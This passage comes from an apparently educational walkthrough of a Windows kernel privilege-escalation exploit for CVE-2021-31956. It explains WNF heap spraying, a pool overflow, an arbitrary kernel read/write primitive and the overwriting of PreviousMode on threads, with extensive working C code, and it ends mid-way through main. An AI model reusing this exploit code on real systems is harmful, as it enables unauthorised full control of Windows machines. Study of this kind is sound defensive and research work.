typedef enum _WNF_STATE_NAME_LIFETIME {
    WnfWellKnownStateName,
    WnfPermanentStateName,
    WnfPersistentStateName,
    WnfTemporaryStateName
} WNF_STATE_NAME_LIFETIME;
```

Based on the variable name, we can assume that this constant is needed within this particular context for `NtCreateWnfStateName`. As the Windows Notification Facility (WNF) can be a complete deep-dive on its own, we will not go into too much depth exploring why `WnfTemporaryStateName` is used versus other constants and also why a constant is needed in the first place. However, if you are interested in exploring the topic further, [Alex Ionescu](https://blog.quarkslab.com/playing-with-the-windows-notification-facility-wnf.html) has a great blogpost that provides an excellent analysis of the Windows Notification Facility. 

* `WnfDataScopeMachine`: As with `WnfTemporaryStateName`, we see that this value as well is a predefined constant: 

```cpp
typedef enum _WNF_DATA_SCOPE
{
  WnfDataScopeSystem = 0x0,
  WnfDataScopeSession = 0x1,
  WnfDataScopeUser = 0x2,
  WnfDataScopeProcess = 0x3,
  WnfDataScopeMachine = 0x4,
} WNF_DATA_SCOPE;
```

* `FALSE`: We can assume this value indicates something to do with not persisting data, but exploring the exact reasoning behind this argument is out-of-scope for this paper. 
* `0`: See see the optional `TypeId` set. 
* `0x1000`: Indicates the maximum state size.
* `sd`: Finally, our previously modified Security Descriptor is then included into the `NtCreateWnfStateName` function call. 

Even though we weren't able to define the exact purpose of every single argument for `NtCreateWnfStateName`, it serves as an important reminder that reverse engineering native Windows vulnerabilities and binaries is a monumental task. Therefore, it is always important to keep sight on the end goal without getting too caught up in the weeds. 

Moving onto the next function call, `NtUpdateWnfStateData`, we start by taking a look at it's implementation within `spray_heap`: 

```cpp
status = _NtUpdateWnfStateData(&(statenames[i]), buf, buf_sz, 0, 0, 0, 0); // spray 0xc0 sized kernel chunks
```

With this in-mind, let's look at the function prototype for [`NtUpdateWnfStateData`](https://github.com/winsiderss/phnt/blob/master/ntexapi.h): 

```cpp
NTSYSCALLAPI
NTSTATUS
NTAPI
NtUpdateWnfStateData(
    _In_ PCWNF_STATE_NAME StateName,
    _In_reads_bytes_opt_(Length) const VOID *Buffer,
    _In_opt_ ULONG Length,
    _In_opt_ PCWNF_TYPE_ID TypeId,
    _In_opt_ const VOID *ExplicitScope,
    _In_ WNF_CHANGE_STAMP MatchingChangeStamp,
    _In_ LOGICAL CheckStamp
    );
```

As with the previous function call, let's walk through the parameters used in `NtUpdateWnfStateData` by `spray_heap`. First, the memory address of the ith `statename` element is passed as the buffer `buf` and buffer size `buf_sz`. Both `buf` and `buf_sz` are passed into `spray_heap` as arguments. When looking at the `main` function, we see that `buf` is a character buffer of size `0xa0`. Further research is required to determine if `0xa0` can be an arbitrary size or if it needs to be equal to its current value. 

Finally, after the two function calls complete, `sd` is freed and the function returns with the `NT_STATUS`. 

#### Sandbox Constraints

One thing to keep in mind is that both the `NtCreateWnfStateName` and `NtUpdateWnfStateName` functions are unavailable when operating in Low Integrity.

### The get_eproc Function

[Return to Top](#table-of-contents)

Before diving into the internals of the `get_eproc` function, let's take a step back and discuss the purpose of this function. According to [Microsoft](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/eprocess): 

> The `EPROCESS` structure is an opaque structure that serves as the process object for a process.

While we will soon see the importance of having the `_EPROCESS` address when we go through the `main` function, suffice to say that `get_eproc` is important in that it sets the stage for both enumeration and exploitation. Let's now look at the return type and parameter for `get_eproc`: 

```cpp
NTSTATUS get_eproc(_Out_ PULONG_PTR eproc)
```

First, the `get_eproc` function returns a `NTSTATUS` value upon completion. Next, a non-NULL `PULONG_PTR` pointer called `eproc` is passed to `get_eproc`. According to [Microsoft](https://learn.microsoft.com/en-us/windows/win32/winprog/windows-data-types), `PULONG_PTR` is: 

> A pointer to a ULONG_PTR

Where `ULONG_PTR` is: 

> An unsigned LONG_PTR

Where `LONG_PTR` is: 

> A signed long type for pointer precision. Use when casting a pointer to a long to perform pointer arithmetic.

While the recursive nature of the definition is oftentimes overbearing, sometimes it's good to always validate the definition of a type rather than constantly assuming it based on the naming convention. 

Next, let's review the variable definitions: 

```cpp
NTSTATUS                   status = STATUS_UNSUCCESSFUL;
PSYSTEM_HANDLE_INFORMATION handle_info = NULL;
UINT64                     handle_info_sz = 0x10000;
HANDLE                     current_proc = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, GetCurrentProcessId());
```

Let's now review each variable's purpose and implementation: 

* `status`: Interestingly enough, unlike the previous functions we covered, `get_eproc` has a default `status` value of `STATUS_UNSUCCESSFUL`. This makes sense logically as the function needs to obtain the `_EPROCESS` value and if it does not have it, the function has failed.
* `handle_info`: A pointer to the below `_SYSTEM_HANDLE_INFORMATION` structure initially set to null. 

```cpp
typedef struct _SYSTEM_HANDLE_INFORMATION
{
    DWORD           NumberOfHandles;
    SYSTEM_HANDLE   Handles[1];
} SYSTEM_HANDLE_INFORMATION, *PSYSTEM_HANDLE_INFORMATION;
```

* `handle_info_sz`: The size of allocated memory to be used for the `handle_info` pointer. In our case it is set to `0x10000`. 
* `current_proc`: If successful, the call to the function `OpenProcess` will return a handle to the current process object. This will eventually be used 

Next, let's look into the memory allocation prepping our `handle_info` pointer for the `NtQuerySystemInformation` function call: 

```cpp
printf("[+] Finding _EPROCESS address of current process: %ld\n", GetCurrentProcessId());

handle_info = (PSYSTEM_HANDLE_INFORMATION)zalloc(handle_info_sz);
if (!handle_info) {
    log_warn("get_eproc::zalloc()1");
    status = STATUS_NO_MEMORY;
    goto out;
}
```

After initializing the `handle_info` pointer to `NULL`, we now allocate the `PSYSTEM_HANDLE_INFORMATION` structure with a memory region of size `handle_info_sz`. If the allocation fails, the function terminates early and returns the `NT_STATUS` value `STATUS_NO_MEMORY`. 

With our memory allocation of `handle_info` complete, we will now enter a while loop that only breaks when the `NT_STATUS` return value of `NtQuerySystemInformation` is not equal to `STATUS_INFO_LENGTH_MISMATCH`. We will discuss in-detail later why the loop checks the `NT_STATUS` value against the constant `STATUS_INFO_LENGTH_MISMATCH`. But for now, let's look at the loop in its entirety: 

```cpp
while ((status = _NtQuerySystemInformation(
    SystemHandleInformation,
    handle_info,
    handle_info_sz,
    NULL)) == STATUS_INFO_LENGTH_MISMATCH) {

    handle_info = realloc(handle_info, handle_info_sz *= 2);
    if (!handle_info) {
        log_warn("get_eproc::realloc()1");
        status = STATUS_NO_MEMORY;
        goto out;
    }
}

if (!NT_SUCCESS(status)) {
    log_warn("get_eproc::NtQuerySystemInformation()1");
    goto out;
}
```

During the loop, if the return value `status` of `NtQuerySystemInformation` is equal to `STATUS_INFO_LENGTH_MISMATCH`, the loop assigns the `handle_info` a new memory allocation with `realloc` where the size, `handle_info_sz` is multiplied by two each iteration. If the memory reallocation fails, the `status` is assigned the value `STATUS_NO_MEMORY` and the function terminates early. After the loop completes without any reallocation errors, the `status` value is checked against `NT_STATUS` and if it fails, the function again terminates early. 

Before moving to discuss the reasoning behind the `STATUS_INFO_LENGTH_MISMATCH` loop, let's break down `NtQuerySystemInformation` and first look at its function prototype: 

```cpp
__kernel_entry NTSTATUS NtQuerySystemInformation(
  [in]            SYSTEM_INFORMATION_CLASS SystemInformationClass,
  [in, out]       PVOID                    SystemInformation,
  [in]            ULONG                    SystemInformationLength,
  [out, optional] PULONG                   ReturnLength
);
```

Let's now break down each parameter and how it's used within the context of our call with `NtQuerySystemInformation`: 

* `SystemHandleInformation`: According to [Geoff Chappell](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/ntexapi/system_information_class.htm) the hex value for `SystemHandleInformation` is `0x10` while the `SYSTEM_INFORMATION_CLASS` enumeration itself remains undocumented by Microsoft.
* `handle_info`: Because the size of the returned data is variable, the size of the buffer needs to be continually increased until the allocation size fits the return size. This is the reason why the `STATUS_INFO_LENGTH_MISMATCH` value is checked against the `NtQuerySystemInformation` call in a loop. If there is a length mismatch, likelihood is that the `handle_info` buffer needs to be increased in size. 
* `handle_info_sz`: The length of the `SystemInformation` buffer pointed to by `handle_info`. 
* `NULL`: The optional pointer to the `ReturnLength` value is set to `NULL`. 

Assuming that `handle_info` is populated with the data returned by `NtQuerySystemInformation`, we can now explore the `for` loop and how it's used to obtain the current process' `_EPROCESS` structure: 

```cpp
printf("[+] Fetched %ld handles\n", handle_info->NumberOfHandles);

for (int i = 0; i < handle_info->NumberOfHandles; i++)
    if (handle_info->Handles[i].dwProcessId == GetCurrentProcessId() && handle_info->Handles[i].wValue == current_proc) {
        status = STATUS_SUCCESS;
        printf("[+] _EPROCESS of current process: %p\n", handle_info->Handles[i].pAddress);
        *eproc = (ULONG_PTR)handle_info->Handles[i].pAddress;
        free(handle_info);
        goto out;
    }
```

Within the `for` loop, while the counter `i` is less than `handle_info->NumberOfHandles`, each iterated handle's Process ID and the `wValue` is equal to `current_proc`, the `status` is set to `STATUS_SUCESS`, the `eproc` pointer is set to the ith `pAddress`, `handle_info` is freed, and the program goes to `out`. During execution, if `get_eproc` fails, the function jumps to `out`, closes the `current_proc` handle, and returns the `NTSTATUS` value `status`. If the function completes normally, this also occurs, but with the `status` value set to `STATUS_SUCCESS`: 

```cpp
out:
    CloseHandle(current_proc);

    return status;
```

### The create_cmd Function

[Return to Top](#table-of-contents)

Let's now examine the `create_cmd` function beginning with its return value and input arguments: 

```cpp
NTSTATUS create_cmd(void)
```

We see that the `create_cmd` function returns a `NTSTATUS` type value while also taking no arguments as input parameters. 

Let's now walk through the variable declarations used for the `CreateProcessA` function call: 

```cpp
char                    cmdl[] = "C:\\Windows\\System32\\cmd.exe";
STARTUPINFOA            si = { 0 };
PROCESS_INFORMATION     pi = { 0 };
BOOL                    res;
NTSTATUS                status = STATUS_SUCCESS;

si.cb = sizeof(STARTUPINFOA);
```

Let's walk through each declaration line by line: 

* `cmdl`: A character array containing the path to `cmd.exe`
* `si`: A `STARTUPINFOA` array initialized with the value `0`. Where [`STARTUPINFOA`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa) specifies the window station, desktop, standard handles, and appearance of the main window for a process at creation time.
* `pi`: A `PROCESS_INFORMATION` array initialized with the value `0`. Where [`PROCESS_INFORMATION`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information) contains information about a newly created process and its primary thread. 
* `res`: An uninitialized boolean variable. 
* `status`: A variable of type `NSTATUS` initialized to `STATUS_SUCCESS`

Now, let's look at the call to `CreateProcessA`: 

```cpp
res = CreateProcessA(
    cmdl, NULL, NULL, NULL, FALSE,
    CREATE_NEW_CONSOLE, NULL, NULL,
    &si, &pi
);
```

Before we examine the call itself, let's look at the [function prototype](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) for `CreateProcessA`: 

```cpp
BOOL CreateProcessA(
  [in, optional]      LPCSTR                lpApplicationName,
  [in, out, optional] LPSTR                 lpCommandLine,
  [in, optional]      LPSECURITY_ATTRIBUTES lpProcessAttributes,
  [in, optional]      LPSECURITY_ATTRIBUTES lpThreadAttributes,
  [in]                BOOL                  bInheritHandles,
  [in]                DWORD                 dwCreationFlags,
  [in, optional]      LPVOID                lpEnvironment,
  [in, optional]      LPCSTR                lpCurrentDirectory,
  [in]                LPSTARTUPINFOA        lpStartupInfo,
  [out]               LPPROCESS_INFORMATION lpProcessInformation
);
```

Let's now compare our call with each of the non-NULL parameter's descriptions from [Microsoft](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa): 

* `lpApplicationName`: The name of the module to be executed.
* `bInheritHandles`: If the parameter is FALSE, the handles are not inherited.
* `dwCreationFlags`: For the flag `CREATE_NEW_CONSOLE`, the new process has a new console, instead of inheriting its parent's console (the default).
* `lpStartupInfo`: A pointer to a `STARTUPINFO` or `STARTUPINFOEX` structure. Where a [`STARTUPINFO`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa) structure specifies the window station, desktop, standard handles, and appearance of the main window for a process at creation time.
* `lpProcessInformation`: A pointer to a PROCESS_INFORMATION structure that receives identification information about the new process.

If the `CreateProcessA` function succeeds, as per [Microsoft's documentation](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa), the handle for both the `hProcess` and `hThread` are closed for within the `PROCESS_INFORMATION` variable `pi`. If `CreateProcessA` fails, the function terminates early with the `NTSTATUS` value `STATUS_UNSUCCESSFUL`: 

```cpp
if (!res) {
    log_warn("create_cmd::CreateProcessA()1");
    status = STATUS_UNSUCCESSFUL;
    goto out;
}

CloseHandle(pi.hProcess);
CloseHandle(pi.hThread);

out:
return status;
```

### The resolve_symbols Function

[Return to Top](#table-of-contents)

The final function we will examine prior to discussing the `main` function is `resolve_symbols`. Let's first take a look at it's return type and input parameters, if any: 

```cpp
NTSTATUS resolve_symbols(void)
```

As with previous functions, the return type is `NTSTATUS` while the function does not take any input parameters. Let's now look at the three variable declarations before the `GetModuleHandleA` and `LoadLibraryA` calls are invoked: 

```cpp
NTSTATUS    status = STATUS_SUCCESS;
HMODULE     ntdll = NULL, tmp = NULL;
```

Here we see the `status` variable is set to `STATUS_SUCCESS` while the `ntdll` and `tmp` variables are of type `HMODULE` and are set to `NULL`. According to [Microsoft](https://learn.microsoft.com/en-us/windows/win32/winprog/windows-data-types), we see that an `HMODULE` is: 

> A handle to a module. This is the base address of the module in memory

Therefore now that we understand the data structure behind `ntdll` and `tmp`, let's now break down the calls to `GetModuleHandleA` and `LoadLibraryA`: 

```cpp
puts("[+] Resolving internal functions...");

ntdll = ((tmp = GetModuleHandleA("ntdll.dll")) ? tmp : LoadLibraryA("ntdll.dll"));
```

First, the `GetModuleHandleA` is called to retrieve the module handle for `ntdll.dll` and stores it in the `tmp` variable. If `GetModuleHandleA` fails, the value of `tmp` is `NULL` and `LoadLibraryA` is not called. If this occurs, the following code executes:

```cpp
if (ntdll == NULL) {
    log_warn("resolve_symbols::LoadLibraryA()1");
    status = STATUS_NOT_FOUND;
    goto out;
}
```

If not, `LoadLibraryA` is called and the base address for `ntdll.dll` is stored in the variable `ntdll`. Now that `ntdll` has the base address for `ntdll.dll`, we will now locate the process address for a series of functions using the `GetProcAddress` function call:

```cpp
_NtQuerySystemInformation = (NQSI)GetProcAddress(ntdll, "NtQuerySystemInformation");
_NtQueryEaFile = (NQEF)GetProcAddress(ntdll, "NtQueryEaFile");
_NtSetEaFile = (NQSI)GetProcAddress(ntdll, "NtSetEaFile");
_NtCreateWnfStateName = (NCWSN)GetProcAddress(ntdll, "NtCreateWnfStateName");
_NtUpdateWnfStateData = (NUWSD)GetProcAddress(ntdll, "NtUpdateWnfStateData");
_NtDeleteWnfStateName = (NDWSN)GetProcAddress(ntdll, "NtDeleteWnfStateName");
_NtDeleteWnfStateData = (NDWSD)GetProcAddress(ntdll, "NtDeleteWnfStateData");
_NtQueryWnfStateData = (NQWSD)GetProcAddress(ntdll, "NtQueryWnfStateData");
_NtReadVirtualMemory = (NRVM)GetProcAddress(ntdll, "NtReadVirtualMemory");
_NtWriteVirtualMemory = (NWVM)GetProcAddress(ntdll, "NtWriteVirtualMemory");

if (!_NtQuerySystemInformation || !_NtQueryEaFile || !_NtSetEaFile ||
    !_NtCreateWnfStateName || !_NtUpdateWnfStateData || !_NtDeleteWnfStateName ||
    !_NtDeleteWnfStateData || !_NtQueryWnfStateData || !_NtReadVirtualMemory || !_NtWriteVirtualMemory) {
    log_warn("resolve_symbols::GetProcAddress()1");
    status = STATUS_NOT_FOUND;
    goto out;
}

puts("[+] All functions resolved");

out:
    return status;
```

If all functions are located, the `status` returns as `STATUS_SUCCESS`. However, if any of the functions are not found the `status` returns `STATUS_NOT_FOUND`. Interestingly enough, the way the code designed casts the data at the returned address to the respective function's datatype. This was created in advance and is useful in structuring the code to allow for dynamically locating a function from an existing process without needing a separate process to load a module. 

### The main Function
 
[Return to Top](#table-of-contents)
 
After painstakingly iterating through every function up to the `main` function, we will now finally put everything together and look at how each of the supporting functions are used in context of this exploit. 
 
Let's now examine the function return type and input parameters, if any. 
 
```cpp
int main(void)
```
 
We see that the return type is an integer and if the application does not crash and is allowed to return normally, the value will be `0`. We also see that the `main` function does not take any input arguments. Let's now look at the variable declarations: 
 
```cpp
ULONG_PTR               own_eproc = 0;
PWNF_STATE_NAME         statenames = zalloc(SPRAY_COUNT * sizeof(WNF_STATE_NAME));
char                    buf[0xa0] = { 0 };
ULONG                   buf_sz = sizeof(buf);
ULONG                   overflow_idx = 0;
char                    *read_data = zalloc(0x5000);
char                    *write_data = zalloc(0x5000);
ULONG                   read_data_sz = 0x5000;
ULONG                   write_data_sz = 0x5000;
PWNF_NAME_INSTANCE      arbwrite_name = NULL;
UINT64                  ext_statename = 0;
ULONG                   fix_size = 0;
WNF_CHANGE_STAMP        stamp = 0;
ULONG_PTR               kthread_flink = 0;
char                    prev_mode[3] = { 0 };
char                    old_prev_mode[3] = "\x00\x00\x01";
PEPROCESS               own_eproc_obj = NULL;
ULONG_PTR               kthreads[MAX_THREAD_SEARCH] = { 0 };
ULONG_PTR               threadlisthead = 0;
PWNF_PROCESS_CONTEXT    ctx = NULL;
```
 
Let's break down each variable declared and discuss its implementation within the `main` function: 
 
* `own_eproc`: Contains an Unsigned Long pointer to the current process' `_EPROCESS` structure. 
* `statenames`: A pointer to a contiguous allocation of `SPRAY_COUNT` `WNF_STATE_NAME` structures. This collection is threaded through `spray_heap`, `fragment_heap`, `find_chunk`, `read_pool`, and `write_pool` as the pool of state names we spray, selectively free, and later index into once the corrupted chunk is located.
* `buf`: A `0xa0`-byte character buffer, zero-initialized, used as the `Buffer` argument for the `NtUpdateWnfStateData` calls inside `spray_heap`. Its size is what drives each sprayed `_WNF_STATE_DATA` allocation into the `0xc0` pool bucket.
* `buf_sz`: The size of `buf`, initialized to `sizeof(buf)` (`0xa0`). It is passed as the spray length and later reused as a scratch size value.
* `overflow_idx`: The index within `statenames` of the `WNF_STATE_NAME` whose backing `_WNF_STATE_DATA` chunk we successfully corrupted, as returned by `find_chunk`.
* `read_data`: A `0x5000`-byte buffer that receives the out-of-bounds pool read performed through the corrupted chunk in `read_pool`.
* `write_data`: A `0x5000`-byte buffer holding the data we write back into the pool. It is seeded with a copy of `read_data` so that every field except the one we deliberately modify is preserved.
* `read_data_sz`: The size of `read_data`, `0x5000`.
* `write_data_sz`: The size of `write_data`, `0x5000`. It doubles as an output parameter that receives the low 32 bits of leaked kernel pointers from `NtQueryWnfStateData`.
* `arbwrite_name`: A pointer into `write_data` at the offset of an adjacent `_WNF_NAME_INSTANCE`. By rewriting this structure's `StateData` member and committing it back into the pool, we obtain an arbitrary read/write primitive.
* `ext_statename`: The decoded ("external") `WNF_STATE_NAME`, recovered by XORing the internal `StateName` with `STATENAME_CONST` so that it can be passed to the WNF query and update syscalls.
* `fix_size`: The number of bytes of `write_data` written back into the corrupted region, sized to reach through the `StateData` pointer of the adjacent `_WNF_NAME_INSTANCE`.
* `stamp`: A `WNF_CHANGE_STAMP` that receives the `ChangeStamp` output of `NtQueryWnfStateData`. It is repurposed to carry the high 32 bits of each leaked kernel pointer.
* `kthread_flink`: A reconstructed 64-bit kernel pointer, assembled from `stamp` (high dword) and `write_data_sz` (low dword). It is used to walk the thread list one `Flink` at a time.
* `prev_mode`: A 3-byte buffer of zeros written over the `PreviousMode` region of each `_KTHREAD` in order to set `PreviousMode` to `0`.
* `old_prev_mode`: A 3-byte buffer `"\x00\x00\x01"` used to restore `PreviousMode` back to `1` during cleanup.
* `own_eproc_obj`: The `own_eproc` address cast to a `PEPROCESS` so it can be passed to `steal_token` and dereferenced for its `WnfContext`.
* `kthreads`: An array of up to `MAX_THREAD_SEARCH` `_KTHREAD` base addresses discovered while walking the process' thread list.
* `threadlisthead`: The address of the process' thread-list head (`own_eproc + 0x30`). Because `_EPROCESS` begins with an embedded `_KPROCESS` at offset `0`, this offset lands on `KPROCESS.ThreadListHead`. It seeds the first pointer leak and serves as the sentinel that terminates the circular thread-list walk.
* `ctx`: A `PWNF_PROCESS_CONTEXT` read from `own_eproc_obj->WnfContext`, passed to `fix_runrefs` to repair the WNF bookkeeping we corrupted.
With every variable declared, `main` first validates that the three heap allocations succeeded, then executes the setup pipeline in order: 
 
```cpp
if (!statenames || !read_data || !write_data) {
    log_warn("main::zalloc()1");
    goto out;
}
 
if (!NT_SUCCESS(resolve_symbols()))
    goto out;
 
if (!NT_SUCCESS(get_eproc(&own_eproc)))
    goto out;
 
if (!NT_SUCCESS(spray_heap(statenames, SPRAY_COUNT, &buf, sizeof(buf))))
    goto out;
 
if (!NT_SUCCESS(fragment_heap(statenames, SPRAY_COUNT)))
    goto out;
 
if (!NT_SUCCESS(overflow_chunk(OVERFLOW_SZ, OVERFLOW_DATA, OVERFLOW_SZ)))
    goto out;
```
 
If any allocation is `NULL`, the function bails to `out` immediately. Otherwise, each stage we reversed earlier is invoked in sequence. `resolve_symbols` dynamically resolves the required `ntdll` exports into their NULL-pointer function typedefs. `get_eproc` locates the current process' `_EPROCESS` address by way of `NtQuerySystemInformation`. `spray_heap` fills the `0xc0` pool bucket with `_WNF_STATE_DATA` chunks, `fragment_heap` punches holes in that spray to encourage a favorable allocation layout, and `overflow_chunk` triggers the CVE-2021-31956 integer underflow through the `NtSetEaFile`/`NtQueryEaFile` pair to overflow into a neighboring chunk. Any failure short-circuits to `out`.
 
Because the heap grooming is probabilistic, a single overflow is not guaranteed to land adjacent to a `_WNF_STATE_DATA` chunk. The following loop repeatedly searches for a corrupted chunk and re-triggers the overflow until one is found: 
 
```cpp
while (!NT_SUCCESS(find_chunk(statenames, SPRAY_COUNT, &buf, &buf_sz, &overflow_idx)))
    if (!NT_SUCCESS(overflow_chunk(OVERFLOW_SZ, OVERFLOW_DATA, OVERFLOW_SZ)))
        goto out;
```
 
`find_chunk` scans every sprayed `WNF_STATE_NAME` for the magic `ChangeStamp` value `0x5000` that the overflow writes. If it does not find one, the overflow corrupted something other than a `_WNF_STATE_DATA` header (for example, a `_WNF_NAME_INSTANCE`), so we overflow again and re-scan. When `find_chunk` finally succeeds, `overflow_idx` holds the index of the corrupted chunk. Note that this leaves any incidentally corrupted name instances behind; those are cleaned up later by `fix_runrefs`.
 
With `overflow_idx` identifying the corrupted chunk, we now exercise our read primitive: 
 
```cpp
buf_sz = sizeof(buf);
 
if (!NT_SUCCESS(read_pool(statenames, overflow_idx, read_data, &read_data_sz)))
    goto out;
 
read_data_sz = 0x5000;
memcpy(write_data, read_data, 0x5000);
```
 
Because the overflow inflated the corrupted chunk's `AllocatedSize` and `DataSize` fields, querying it through `read_pool` returns far more than the original `0xc0` bytes, giving us an out-of-bounds read of `0x5000` bytes of adjacent pool memory into `read_data`. We then restore `read_data_sz` and copy the leaked bytes into `write_data`. This copy becomes our baseline: every subsequent write reuses these bytes so that only the one field we intend to change differs from the live pool contents, keeping the surrounding structure intact.
 
We now scan the leaked pool bytes for the header signature of a `_WNF_NAME_INSTANCE`: 
 
```cpp
for (int i = 0; i < 0x5000; i++)
    if ((unsigned char)read_data[i] == 0x03 && (unsigned char)read_data[i + 1] == 0x09 && (unsigned char)read_data[i + 2] == 0xa8) {
        arbwrite_name = (PWNF_NAME_INSTANCE)(&write_data[i]);
        printf("[+] Found a WNF_NAME_INSTANCE structure at offset %x to our corrupted WNF_STATE_DATA\n", i);
        fix_size = i + 0x60;
        break;
    }
```
 
Recall from `fix_runrefs` that a sane `_WNF_NAME_INSTANCE` carries the `_WNF_NODE_HEADER` value `0x0000000000A80903`. In little-endian byte order that begins `0x03 0x09 0xa8`, so a match at offset `i` marks the start of a `_WNF_NAME_INSTANCE` sitting within our out-of-bounds window. We point `arbwrite_name` at the corresponding offset inside `write_data` (not `read_data`), so that edits are staged against our writable copy. `fix_size` is set to `i + 0x60`, which is large enough to reach through the `StateData` pointer at offset `0x58` of the name instance when we write the region back. This captured `_WNF_NAME_INSTANCE` is the linchpin of the arbitrary read/write primitive: whatever address we place in its `StateData` becomes the target that `NtQueryWnfStateData` and `NtUpdateWnfStateData` will read from and write to.
 
If the scan found nothing, no `_WNF_NAME_INSTANCE` fell within reach of the corrupted chunk, the layout is not favorable, and the exploit cannot proceed: 
 
```cpp
if (!arbwrite_name) {
    log_warn("No WNF_NAME_INSTANCE near our corrupted WNF_STATE_DATA, probably not exploitable");
    goto out;
}
```
 
Assuming a name instance was captured, we aim our hijacked `StateData` pointer at the process' thread-list head: 
 
```cpp
threadlisthead = (ULONG_PTR)((ULONG_PTR)own_eproc + (ULONG_PTR)0x30);
arbwrite_name->StateData = threadlisthead;
```
 
`threadlisthead` is computed as `own_eproc + 0x30`, i.e. `KPROCESS.ThreadListHead`. Overwriting `StateData` with this address means the next WNF query on this name will treat the `ThreadListHead` `LIST_ENTRY` as if it were a `_WNF_STATE_DATA` structure and read from it, giving us our first leak into the kernel's thread list.
 
We commit the modified name instance back into the pool: 
 
```cpp
if (!NT_SUCCESS(write_pool(statenames, overflow_idx, write_data, fix_size)))
    goto out;
```
 
`write_pool` issues `NtUpdateWnfStateData` against the corrupted chunk, writing `fix_size` bytes of `write_data` — including our rewritten `StateData` pointer — over the real adjacent `_WNF_NAME_INSTANCE`. The live name instance now points its `StateData` at `KPROCESS.ThreadListHead`.
 
Before we can query that name, we have to recover its external state name: 
 
```cpp
ext_statename = *(PULONGLONG)&(arbwrite_name->StateName) ^ STATENAME_CONST;
```
 
WNF stores each `StateName` XOR-encoded with an internal constant, so we XOR the captured internal `StateName` with `STATENAME_CONST` to reconstruct the decoded ("external") name that the syscalls expect.
 
We then query it: 
 
```cpp
_NtQueryWnfStateData((WNF_STATE_NAME *)&ext_statename, NULL, NULL, &stamp, write_data, &write_data_sz); // this call will fail, so we don't error check
```
 
Because `StateData` now points at `KPROCESS.ThreadListHead`, this query dereferences our controlled pointer and reads kernel memory there. The call ultimately returns a failure status (the target is not a well-formed `_WNF_STATE_DATA` chunk), which is why it is intentionally not error-checked, but before failing it populates `stamp` with the `ChangeStamp` dword and `write_data_sz` with the size dword — and those two dwords together are the eight bytes living at the target address. In other words, the "failed" query still leaks a 64-bit value out of the kernel.
 
We reassemble that leaked pointer and reset our write buffer: 
 
```cpp
kthread_flink = (UINT64)stamp << 32 | (UINT32)write_data_sz;
write_data_sz = 0x5000;
memcpy(write_data, read_data, 0x5000);
```
 
The high dword (`stamp`) and low dword (`write_data_sz`) are recombined into `kthread_flink`, the `Flink` of the first entry on the thread list. We then restore `write_data_sz` to `0x5000` and refresh `write_data` from the pristine `read_data` baseline so the next staged write starts clean.
 
We derive the first `_KTHREAD` from that `Flink` and sanity-check it: 
 
```cpp
kthreads[0] = (UINT64)kthread_flink - (UINT64)0x2f8;
if ((UINT64)kthreads[0] < 0xFFFF800000000000) {
    log_warn("Fail to find _KTHREAD in memory");
    goto out;
}
```
 
Each thread is linked into the list through `KTHREAD.ThreadListEntry` at offset `0x2f8`, so subtracting `0x2f8` from the leaked `Flink` yields the base address of the first `_KTHREAD`. We validate that the result lies in canonical kernel address space (`>= 0xFFFF800000000000`); anything lower means the leak went wrong and we abort.
 
We now walk the remainder of the circular thread list, repeating the leak once per thread: 
 
```cpp
printf("[+] Found _KTHREAD 1 at %p\n", kthreads[0]);
 
for (int i = 1; i < MAX_THREAD_SEARCH; i++) {
    arbwrite_name->StateData = kthread_flink; // find next kthread
 
    if (!NT_SUCCESS(write_pool(statenames, overflow_idx, write_data, fix_size)))
        goto out;
 
    ext_statename = *(PULONGLONG) & (arbwrite_name->StateName) ^ STATENAME_CONST;
 
    _NtQueryWnfStateData((WNF_STATE_NAME *)&ext_statename, NULL, NULL, &stamp, write_data, &write_data_sz); // this call will fail, so we don't error check
 
    kthread_flink = (UINT64)stamp << 32 | (UINT32)write_data_sz;
    if ((UINT64)kthread_flink == (UINT64)threadlisthead)
        break;
 
    write_data_sz = 0x5000;
    memcpy(write_data, read_data, 0x5000);
 
    kthreads[i] = (UINT64)kthread_flink - (UINT64)0x2f8;
    if ((UINT64)kthreads[i] < 0xFFFF800000000000) {
        log_warn("Fail to find _KTHREAD in memory");
        goto out;
    }
 
    printf("[+] Found _KTHREAD %d at %p\n", i+1, kthreads[i]);
}
```
 
Each iteration points `StateData` at the current `kthread_flink` (which is itself a `LIST_ENTRY`), commits that with `write_pool`, decodes the state name, and queries it to leak the next `Flink`. Since `KPROCESS.ThreadListHead` anchors a circular doubly-linked list, the walk terminates the moment `kthread_flink` equals `threadlisthead` — we have come back around to the head. Otherwise we refresh the write buffer, subtract `0x2f8` to record the next `_KTHREAD` base in `kthreads[i]`, and continue until the whole list is enumerated (or `MAX_THREAD_SEARCH` is reached).
 
With every thread located, we neutralize the access-mode check on each one: 
 
```cpp
for (int i = 0; i < MAX_THREAD_SEARCH; i++) {
    if (kthreads[i] == 0)
        break;
 
    arbwrite_name->StateData = (UINT64)kthreads[i] + 0x220; // kthread.Process
 
    if (!NT_SUCCESS(write_pool(statenames, overflow_idx, write_data, fix_size)))
        goto out;
 
    write_data_sz = 0x5000;
    memcpy(write_data, read_data, 0x5000);
 
    ext_statename = *(PULONGLONG)&(arbwrite_name->StateName) ^ STATENAME_CONST;
    if (!NT_SUCCESS(_NtUpdateWnfStateData((WNF_STATE_NAME *)&ext_statename, prev_mode, 0x3, NULL, NULL, 0, 0))) {
        log_warn("main::_NtUpdateWnfStateData()1");
        goto out;
    }
 
    printf("[+] Overwritten PreviousMode of _KTHREAD %d to 0\n", i+1);
}
```
 
